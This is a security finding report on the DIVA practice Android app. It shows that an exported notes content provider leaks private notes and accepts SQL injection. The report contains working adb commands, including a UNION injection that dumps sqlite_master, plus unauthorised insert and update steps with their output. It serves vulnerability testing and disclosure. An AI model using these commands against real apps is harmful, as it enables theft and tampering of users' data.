

# Exported notes provider leaks private notes and is SQL-injectable

**Vulnerability title:** `NotesProvider` is exported with no permission, and `query()` is SQL-injectable

**Scanner title:** Exported content provider (`COMPONENT_PROVIDER`)

**Severity:** High (confirmed)

**CWE:** CWE-926 (improperly exported component), CWE-89 (SQL injection)

**MASVS:** MASVS-PLATFORM-1

**Component:** `jakhar.aseem.diva.NotesProvider`

**Authority:** `content://jakhar.aseem.diva.provider.notesprovider/notes`

**Device:** VirtualBox Android 9 (API 28), `10.0.2.5:5555`

## Description

The manifest sets `android:exported="true"` and `android:enabled="true"` on `NotesProvider`. It sets no `android:permission`, `readPermission`, or `writePermission`.

The provider owns `divanotes.db` and the `notes` table (`_id`, `title`, `note`). `onCreate` seeds six private notes (office, home, holiday, expense, exercise, weekend). The in-app screen that lists those notes, `AccessControl3NotesActivity`, shows them only after the user enters a PIN. The provider itself never checks that PIN.

`query()` builds the statement with `SQLiteQueryBuilder`. That class wraps the caller-supplied selection in parentheses:

```text
SELECT * FROM notes WHERE (<selection>) ORDER BY title
```

A selection that closes the parenthesis and comments out the rest changes the query. `SELECT *` returns three columns, so the `UNION` has to return three columns. `insert()`, `update()`, and `delete()` are also open to any caller.

## Steps performed

1. Confirmed the provider flags in the manifest and read `query()`, `insert()`, `update()`, and `delete()` in `NotesProvider.java`.
2. Queried the provider from the shell user, which is outside the app:

```bash
adb shell content query --uri content://jakhar.aseem.diva.provider.notesprovider/notes
```

3. Dumped `sqlite_master` with a selection that closes the builder's parenthesis:

```bash
adb shell content query \
  --uri content://jakhar.aseem.diva.provider.notesprovider/notes \
  --where "1=0) UNION SELECT rowid, sql, tbl_name FROM sqlite_master--"
```

4. Inserted a row titled `labproof`, updated its note, and queried it back. The six seed notes were not modified.
5. Wrote the command output to an HTML file and opened it in the device HTML viewer for a screenshot.
6. Deleted only the `labproof` row.

The same steps are `automated_exploitations_diva/01_exported_notes_provider.py`.

## Evidence

The seed notes were already in the database. The shell user did not insert them.

```text
===== query private notes =====
Row: 0 _id=5, title=Exercise, note=Alternate days running
Row: 1 _id=4, title=Expense, note=Spent too much on home theater
Row: 2 _id=6, title=Weekend, note=b333333333333r
Row: 3 _id=3, title=holiday, note=Either Goa or Amsterdam
Row: 4 _id=2, title=home, note=Buy toys for baby, Order dinner
Row: 5 _id=1, title=office, note=10 Meetings. 5 Calls. Lunch with CEO

===== sql injection (sqlite_master) =====
Row: 0 _id=1, title=CREATE TABLE android_metadata (locale TEXT), note=android_metadata
Row: 1 _id=2, title=CREATE TABLE notes (_id INTEGER PRIMARY KEY AUTOINCREMENT, title TEXT NOT NULL, note TEXT NOT NULL), note=notes
Row: 2 _id=3, title=CREATE TABLE sqlite_sequence(name,seq), note=sqlite_sequence

===== query inserted row =====
Row: 0 _id=8, title=labproof, note=inserted_without_permission

===== query after update =====
Row: 0 _id=8, title=labproof, note=tampered_without_permission
```

Full transcript: `automated_exploitations_diva/evidence/01_provider_transcript.txt`



## Impact

Any app on the device can read the private notes, add or change rows, and run SQL through the selection string. The PIN gate in front of the notes screen does not apply to this provider. The injected query returned the database schema, which is enough to aim a later `UNION` at other columns in the same file.

## Errors

`content insert`, `content update`, and `content delete` printed no stdout on this Android 9 image. That is normal for this `content` tool. Each write was checked with a follow-up query: the inserted note came back, the updated note came back as `tampered_without_permission`, and the cleanup query returned `No result found`. No command was changed because of that.

No Frida, root, or permission-dialog workaround was required. The shell user could call the provider directly.
